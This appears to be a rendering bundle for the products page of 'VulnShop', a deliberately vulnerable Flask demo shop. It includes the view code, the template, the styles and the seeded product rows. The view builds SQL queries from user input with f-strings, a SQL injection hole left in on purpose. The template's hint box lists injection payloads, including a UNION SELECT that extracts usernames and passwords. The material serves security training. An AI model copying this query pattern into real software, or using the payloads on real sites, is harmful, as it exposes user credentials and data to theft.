

Screenshot of /products (signed in, upper part) with the database file from the repository (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE products (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            name TEXT NOT NULL,
            description TEXT,
            price REAL,
            category TEXT,
            stock INTEGER DEFAULT 0
        );

### app.py (the view)
@app.route('/products')
def products():
    search = request.args.get('search', '')
    category = request.args.get('category', '')
    conn = get_db()
    cursor = conn.cursor()
    if search:
        query = f"SELECT * FROM products WHERE name LIKE '%{search}%' OR description LIKE '%{search}%'"
    elif category:
        query = f"SELECT * FROM products WHERE category = '{category}'"
    else:
        query = "SELECT * FROM products"
    print(f"[DEBUG] Executing query: {query}")  # For demonstration
    try:
        cursor.execute(query)
        products_list = cursor.fetchall()
    except Exception as e:
        products_list = []
        print(f"[ERROR] {str(e)}")
    conn.close()
    return render_template('products.html', products=products_list, search=search, category=category)

### app.py (called while the page is built)
def get_db():
    conn = sqlite3.connect(DATABASE)
    conn.row_factory = sqlite3.Row
    return conn

### templates/products.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div class="warning-banner">
        ⚠️ WARNING: This is a vulnerable demo application. DO NOT use in production!
    </div>
    <nav>
        <a href="/" class="logo">🛒 VulnShop</a>
        <div class="nav-links">
            <a href="/">Home</a>
            {% if session.get('logged_in') %}
            <span class="user-info">Welcome, {{ session.get('username') }}!</span>
            <a href="/logout">Logout</a>
            {% else %}
            <a href="/login">Login</a>
            {% endif %}
        </div>
    </nav>
    <main class="container">
        <div class="search-section">
            <form class="search-form" method="GET" action="/products">
                <input type="text" name="search" placeholder="Search products..." value="{{ search }}">
                <select name="category">
                    <option value="">All Categories</option>
                </select>
                <button type="submit" class="btn-search">🔍 Search</button>
            </form>
            <div class="hint-box">
                <h4>💡 SQL Injection Hints:</h4>
                <p>Try these payloads in the search field:</p>
                <ul style="margin-left: 1rem; margin-top: 0.5rem;">
                    <li><code>' OR '1'='1' --</code> - Show all products</li>
                    <li><code>' UNION SELECT 1,username,password,email,is_admin,1 FROM users --</code> - Extract user data</li>
                    <li><code>laptop' OR '1'='1' --</code> - Always true condition</li>
                </ul>
            </div>
        </div>
        {% if products %}
        <div class="products-grid">
            {% for product in products %}
            <div class="product-card">
                <div class="product-image">📦</div>
                <div class="product-info">
                    <span class="category-badge">{{ product[4] if product[4] else 'N/A' }}</span>
                    <h3>{{ product[1] }}</h3>
                    <p>{{ product[2] }}</p>
                    <div class="product-meta">
                        <span class="price">{% if product[3] is number %}${{ "%.2f"|format(product[3]) }}{% else %}{{ product[3] }}{% endif %}</span>
                        <span class="stock">Stock: {{ product[5] }}</span>
                    </div>
                </div>
            </div>
            {% endfor %}
        </div>
        {% else %}
        <div class="no-products">
            <h3>No products found</h3>
            <p>Try a different search term or browse all products.</p>
        </div>
        {% endif %}
    </main>
</body>
</html>

### templates/products.html (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background: #f5f5f5; min-height: 100vh; }
nav { background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); padding: 1rem 2rem; display: flex; justify-content: space-between; align-items: center; }
nav .logo { color: white; font-size: 1.5rem; font-weight: bold; text-decoration: none; }
nav .nav-links a { color: white; text-decoration: none; margin-left: 1.5rem; padding: 0.5rem 1rem; border-radius: 5px; transition: background 0.3s; }
.container { max-width: 1200px; margin: 0 auto; padding: 2rem; }
.search-section { background: white; padding: 1.5rem; border-radius: 10px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); margin-bottom: 2rem; }
.search-form { display: flex; gap: 1rem; flex-wrap: wrap; }
.search-form input[type="text"] { flex: 1; min-width: 250px; padding: 0.8rem 1rem; border: 2px solid #e0e0e0; border-radius: 8px; font-size: 1rem; }
.search-form select { padding: 0.8rem 1rem; border: 2px solid #e0e0e0; border-radius: 8px; font-size: 1rem; background: white; }
.btn-search { padding: 0.8rem 2rem; background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); color: white; border: none; border-radius: 8px; font-size: 1rem; cursor: pointer; transition: transform 0.3s; }
.products-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(280px, 1fr)); gap: 1.5rem; }
.product-card { background: white; border-radius: 10px; overflow: hidden; box-shadow: 0 2px 10px rgba(0,0,0,0.1); transition: transform 0.3s, box-shadow 0.3s; }
.product-image { height: 150px; background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); display: flex; justify-content: center; align-items: center; font-size: 3rem; }
.product-info { padding: 1.5rem; }
.product-info h3 { color: #333; margin-bottom: 0.5rem; }
.product-info p { color: #666; font-size: 0.9rem; margin-bottom: 1rem; }
.product-meta { display: flex; justify-content: space-between; align-items: center; }
.price { font-size: 1.25rem; font-weight: bold; color: #667eea; }
.stock { font-size: 0.8rem; color: #999; }
.category-badge { display: inline-block; padding: 0.25rem 0.75rem; background: #e0e7ff; color: #667eea; border-radius: 20px; font-size: 0.75rem; margin-bottom: 0.5rem; }
.hint-box { margin-top: 1rem; padding: 1rem; background: #fff3cd; border-radius: 8px; font-size: 0.85rem; }
.hint-box h4 { color: #856404; margin-bottom: 0.5rem; }
.hint-box code { background: #ffeeba; padding: 2px 6px; border-radius: 4px; font-family: monospace; }
.warning-banner { background: #ff6b6b; color: white; text-align: center; padding: 0.5rem; font-size: 0.9rem; }
.user-info { color: white; font-size: 0.9rem; }

### rows the page displays
products: category "Electronics", name "Laptop Pro 15", description "High performance laptop with 16GB RAM", price "1299.99", stock "50"
products: category "Electronics", name "Wireless Mouse", description "Ergonomic wireless mouse with USB receiver", price "29.99", stock "200"
products: category "Electronics", name "USB-C Hub", description "7-in-1 USB-C hub with HDMI output", price "49.99", stock "150"
products: category "Electronics", name "Mechanical Keyboard", description "RGB mechanical keyboard with blue switches", price "89.99", stock "75"
products: category "Electronics", name "Monitor 27\"", description "4K UHD monitor with HDR support", price "399.99", stock "30"
products: category "Electronics", name "Headphones BT", description "Noise cancelling bluetooth headphones", price "199.99", stock "100"
products: category "Electronics", name "Webcam HD", description "1080p webcam with microphone", price "79.99", stock "80"
products: category "Accessories", name "Phone Stand", description "Adjustable aluminum phone stand", price "19.99", stock "300"
products: category "Accessories", name "Laptop Bag", description "Water resistant laptop bag 15.6\"", price "39.99", stock "120"
products: category "Accessories", name "Screen Protector", description "Tempered glass screen protector", price "9.99", stock "500"
products: category "Electronics", name "Laptop Pro 15", description "High performance laptop with 16GB RAM", price "1299.99", stock "50"
products: category "Electronics", name "Wireless Mouse", description "Ergonomic wireless mouse with USB receiver", price "29.99", stock "200"
products: category "Electronics", name "USB-C Hub", description "7-in-1 USB-C hub with HDMI output", price "49.99", stock "150"
products: category "Electronics", name "Mechanical Keyboard", description "RGB mechanical keyboard with blue switches", price "89.99", stock "75"
products: category "Electronics", name "Monitor 27\"", description "4K UHD monitor with HDR support", price "399.99", stock "30"
products: category "Electronics", name "Headphones BT", description "Noise cancelling bluetooth headphones", price "199.99", stock "100"
products: category "Electronics", name "Webcam HD", description "1080p webcam with microphone", price "79.99", stock "80"
products: category "Accessories", name "Phone Stand", description "Adjustable aluminum phone stand", price "19.99", stock "300"
products: category "Accessories", name "Laptop Bag", description "Water resistant laptop bag 15.6\"", price "39.99", stock "120"
products: category "Accessories", name "Screen Protector", description "Tempered glass screen protector", price "9.99", stock "500"
products: category "Electronics", name "Laptop Pro 15", description "High performance laptop with 16GB RAM", price "1299.99", stock "50"
products: category "Electronics", name "Wireless Mouse", description "Ergonomic wireless mouse with USB receiver", price "29.99", stock "200"
products: category "Electronics", name "USB-C Hub", description "7-in-1 USB-C hub with HDMI output", price "49.99", stock "150"
products: category "Electronics", name "Mechanical Keyboard", description "RGB mechanical keyboard with blue switches", price "89.99", stock "75"

### other values shown
{{ session.get('username') }} "admin"
